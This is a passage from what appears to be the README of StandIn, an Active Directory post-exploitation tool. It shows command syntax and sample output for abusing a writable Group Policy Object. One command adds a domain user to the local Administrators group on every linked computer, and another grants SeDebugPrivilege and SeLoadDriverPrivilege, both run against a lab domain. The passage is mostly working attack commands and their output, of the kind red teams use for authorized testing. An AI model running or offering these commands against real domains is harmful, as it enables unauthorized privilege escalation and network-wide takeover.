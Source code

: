 ### GPO add local admin

> *With the appropriate permissions it is possible to add a domain user to the `BUILTIN\Administrators` on a vulnerable GPO.*

#### Syntax

Add user to to the `BUILTIN\Administrators` group for all linked computer objects tied to the `Shards` GPO. This function can both create the required files and also update existing files. **Use with caution.**

```
C:\> StandIn.exe --gpo --filter Shards --localadmin user002

[?] Using DC : m-w16-dc01.main.redhook.local

[+] GPO Object Found
    Object   : CN={58890948-8DE3-4A39-8C40-F68004186693}
    Path     : LDAP://CN={58890948-8DE3-4A39-8C40-F68004186693},CN=Policies,CN=System,DC=redhook,DC=local
    GP Path  : \\redhook.local\SysVol\redhook.local\Policies\{58890948-8DE3-4A39-8C40-F68004186693}

[+] User Object Found
    Object   : CN=user 002
    Path     : LDAP://CN=user 002,CN=Users,DC=redhook,DC=local
    SID      : S-1-5-21-315358687-3711474269-2098994107-1106

[?] GPO Version
    User     : 0
    Computer : 0

[+] Writing GPO changes
    |_ Creating GptTmpl.inf
    |_ Updating gpt.inf
    |_ Updating AD object
       |_ Incrementing version number
       |_ Creating gPCMachineExtensionNames
```

### GPO add user privilege

> *With the appropriate permissions it is possible to enable a token privilege for a domain user on a vulnerable GPO.*

#### Syntax

Add `token` privilege to a user account for all linked computer objects tied to the `Shards` GPO. This function can both create the required files and also update existing files. **Use with caution.**

```
C:\Users\user001\Desktop>StandIn.exe --gpo --filter Shards --setuserrights user002 --grant "SeDebugPrivilege,SeLoadDriverPrivilege"

[+] Validating account rights
    |_ Rights count: 2
       |_ SeDebugPrivilege
       |_ SeLoadDriverPrivilege

[?] Using DC : m-w16-dc01.main.redhook.local

[+] GPO Object Found
    Object   : CN={58890948-8DE3-4A39-8C40-F68004186693}
    Path     : LDAP://CN={58890948-8DE3-4A39-8C40-F68004186693},CN=Policies,CN=System,DC=redhook,DC=local
    GP Path  : \\redhook.local\SysVol\redhook.local\Policies\{58890948-8DE3-4A39-8C40-F68004186693}
```